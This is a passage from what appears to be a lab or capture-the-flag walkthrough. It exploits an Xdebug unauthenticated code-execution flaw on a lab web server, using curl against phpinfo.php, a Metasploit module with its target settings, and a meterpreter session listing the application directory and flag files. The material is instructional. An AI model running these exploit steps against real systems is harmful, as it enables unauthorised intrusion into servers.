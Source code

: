 * Access `phpinfo.php` file using curl to find more information about the web server.

```
curl http://192.78.84.3/phpinfo.php
```

<figure><img src="../../../../../.gitbook/assets/image (233).png" alt=""><figcaption></figcaption></figure>

```bash
use exploit/unix/http/xdebug_unauth_exec
set RHOSTS 192.78.84.3
set LHOST 192.78.84.3
exploit
```

1. Check the present working directory on remote (exploited) machine.

```bash
meterpreter > pwd
    /app
```

2. List the files present in present working directory of the remote machine.

```bash
meterpreter > ls
```

```bash
Listing: /app
=============

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
40777/rwxrwxrwx   4096   dir   2016-02-15 10:35:00 +0000  .git
40755/rwxr-xr-x   4096   dir   2024-07-30 13:25:11 +0000  .xoda
100777/rwxrwxrwx  10273  fil   2016-02-15 10:35:00 +0000  LICENSE
100777/rwxrwxrwx  8703   fil   2018-10-05 18:41:42 +0000  README
100777/rwxrwxrwx  79     fil   2016-02-15 10:35:00 +0000  README.md
40777/rwxrwxrwx   4096   dir   2018-10-06 06:33:10 +0000  Secret Files
100777/rwxrwxrwx  1284   fil   2018-10-05 18:41:42 +0000  config.php
40777/rwxrwxrwx   4096   dir   2024-07-30 13:27:56 +0000  files
100777/rwxrwxrwx  33     fil   2018-10-06 05:13:55 +0000  flag1
100777/rwxrwxrwx  208    fil   2018-10-06 05:19:22 +0000  flag5.zip
100777/rwxrwxrwx  40563  fil   2018-10-05 18:41:42 +0000  functions.php
100777/rwxrwxrwx  57739  fil   2018-10-05 18:41:42 +0000  index.php
40777/rwxrwxrwx   4096   dir   2018-10-05 18:41:42 +0000  js
100777/rwxrwxrwx  14598  fil   2016-02-15 10:35:00 +0000  logo.png
100777/rwxrwxrwx  5265   fil   2018-10-05 18:41:42 +0000  mobile.css
100777/rwxrwxrwx  19     fil   2016-02-15 10:35:00 +0000  phpinfo.php
100777/rwxrwxrwx  5758   fil   2018-10-05 18:41:42 +0000  style.css
40777/rwxrwxrwx   4096   dir   2018-10-05 18:41:42 +0000  xd_icons
100777/rwxrwxrwx  18850  fil   2018-10-05 18:41:42 +0000  zipstream.php
```
